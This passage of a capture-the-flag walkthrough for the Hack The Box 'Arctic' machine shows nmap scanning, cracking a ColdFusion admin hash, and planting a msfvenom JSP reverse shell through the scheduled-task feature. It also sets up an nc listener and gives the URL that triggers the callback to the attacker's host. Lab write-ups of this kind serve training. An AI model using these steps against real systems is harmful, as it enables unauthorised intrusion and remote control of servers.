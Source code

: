    ``` nmap -sV -sC -A -O -oN /root/Desktop/HTB?arctic/nmap_scan.txt 10.10.10.11 ``` 
the tool name call 'has identifier' in the terminal. It is a
pre-installed tool in kali Linux.\
So in terminal type ***hash identifier ***command and it will ask the
Hash, Now past the Copied Password.

![](/assets/Arctic_htb/media/image10.png)

And it gave the possible hashes can be a SHA1 or MYSQL SHA1 with the
password salt.

Now search for the hash decrypter in google to decrypt the hash. Search
decrypt SHA1 Decrypt. I used this site to decrypt the password.

![](/assets/Arctic_htb/media/image11.png)

And Boom! Finally, we go to the password. The password is 'happyday'.

Now we can log in into the Admin panel.

![](/assets/Arctic_htb/media/image12.png)

Now you can go to each link and can see what happens. Now When it comes
to exploitations in Coldfusion we use the scheduled Task Part.

![](/assets/Arctic_htb/media/image13.png)

In my view of Coldfusion, it can execute Php files or JSP files That
means we have to create JSP payload with msfvenom.

5. Create JSP Payload
First, in the Terminal Start apache Server

  ``` service apache2 start ```
Now we have to generate the JSP Reverse Shell inside the webserver.
  ``` msfvenom -P java/jsp_shell_reverse_tcp LHOST=10.10.10.27 LPORT=4444 -f raw \>/var/www/html/shell.jsp ```

Now our payload will be in our Webserver. Now check that JSP file in our
webserver.

![](/assets/Arctic_htb/media/image14.png)

Anyway, it will not execute because it\'s not running on the ColdFusion.
And copy the URL and past it in the Scheduler Task menu.

![](/assets/Arctic_htb/media/image15.png)

No user or password required. and in the File Part, we need give the
Cold Fusion Directory which
is ``` \\ColdFusion8\\wwwroot\\CFIDE\\shell.jsp ``` here we will be able
to execute. Then Submit it.

6.Set up Listener\
``` nc -nvlp 4444 ```

In webserver Now we could able to execute the shell after uploading.

![](/assets/Arctic_htb/media/image16.png)

Now run the Schedule Task. After Schedule Task Run Successfully Type
this URL in the browser to execute the
shell. ``` 10.10.10.11:8500/CFIDE/shell.jsp ``` Once its executed we will
get the reverse shell.

   ```